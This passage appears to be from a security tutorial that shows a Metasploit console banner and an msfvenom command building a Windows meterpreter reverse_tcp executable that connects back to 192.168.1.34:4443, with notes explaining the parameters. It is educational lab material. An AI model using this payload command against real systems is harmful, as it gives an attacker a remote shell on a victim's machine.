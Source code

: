 ```bash
                                   /      .               /
    X                             /                      /            X
                                 /                     ###
                                /                     # % #
                               /                       ###
                      .       /
     .                       /      .            *           .
                            /
                           *
                  +                       *

                                       ^
####      __     __     __          #######         __     __     __        ####
####    /    \ /    \ /    \      ###########     /    \ /    \ /    \      ####
################################################################################
################################################################################
# WAVE 5 ######## SCORE 31337 ################################## HIGH FFFFFFFF #
################################################################################
                                                           https://metasploit.com


       =[ metasploit v6.0.53-dev                          ]
+ -- --=[ 2149 exploits - 1142 auxiliary - 366 post       ]
+ -- --=[ 592 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 8 evasion                                       ]

Metasploit tip: Use sessions -1 to interact with the 
last opened session

[*] Processing docker/msfconsole.rc for ERB directives.
[*] resource (docker/msfconsole.rc)> Ruby Code (236 bytes)
LHOST => 172.17.0.3
msf6 > 
```

The graphic changes each time you load it so don't worry if your version doesn't show Missile Command - and in case you were wondering - Missile Command was a very popular video game back in the 1980's :)

We are going to run `msfvenom` from the Metasploit command line to generate two versions of meterpreter executables. The first will run an unmodified meterpreter executable:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.34 LPORT=4443 \
-f exe > /volume1/meterpreter1.exe
```

You don't really have to worry about the parameters but if you are interested, the `LHOST` and `LPORT` arguments tell Meterpreter where to connect back to (i.e. our machine). We haven't set up a listener on port 4443 and our executable actually doesn't send back anything, so these values are just there as a space holder. The `-f exe` tells Meterpreter that we are using an executable format for the payload.
